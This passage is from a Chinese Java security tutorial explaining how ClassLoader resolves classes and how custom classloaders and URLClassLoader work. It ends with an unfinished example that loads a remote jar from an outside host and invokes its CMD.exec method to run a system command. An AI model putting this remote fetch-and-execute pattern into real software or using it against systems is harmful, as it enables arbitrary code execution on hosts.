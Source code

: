 1.ClassLoader会调用public Class<?> loadClass(String name)方法加载com.anbai.sec.classloader.TestHelloWorld类。（先加载）

2.调用findLoadedClass方法检查TestHelloWorld类是否已经初始化，如果JVM已初始化过该类则直接返回类对象。（判断是否已经初始化，若初始化则直接返回类对象）

3.如果创建当前ClassLoader时传入了父类加载器（new ClassLoader(父类加载器)）就使用父类加载器加载TestHelloWorld类，否则使用JVM的Bootstrap ClassLoader加载。（选择加载器，否则使用默认的Bootstrap ClassLoader）

4.如果上一步无法加载TestHelloWorld类，那么调用自身的findClass方法尝试加载TestHelloWorld类。

5.如果当前的ClassLoader没有重写了findClass方法，那么直接返回类加载失败异常。如果当前类重写了findClass方法并通过传入的com.anbai.sec.classloader.TestHelloWorld类名找到了对应的类字节码，那么应该调用defineClass方法去JVM中注册该类。

6.如果调用loadClass的时候传入的resolve参数为true，那么还需要调用resolveClass方法链接类，默认为false。

7.返回一个被JVM加载后的java.lang.Class类对象。

 

### **五、自定义classloader** 

#### **1.下面一个示例通过自定义classloader加载类**

伪代码展示

​	public class TestClassLoader extends ClassLoader {

​	//自定义classloader需要继承classloader父类

​	 private static String testClassName = "com.anbai.sec.classloader.TestHelloWorld";

​	定义类名静态遍历

}

####  2.urlclassloader

​	

```java
package com.anbai.sec.classloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class TestURLClassLoader {

	public static void main(String[] args) {
		try {
			// 定义远程加载的jar路径
			URL url = new URL("https://anbai.io/tools/cmd.jar");

			// 创建URLClassLoader对象，并加载远程jar包
			URLClassLoader ucl = new URLClassLoader(new URL[]{url});

			// 定义需要执行的系统命令
			String cmd = "ls";

			// 通过URLClassLoader加载远程jar包中的CMD类
			Class cmdClass = ucl.loadClass("CMD");

			// 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
			Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

			// 获取命令执行结果的输入流
```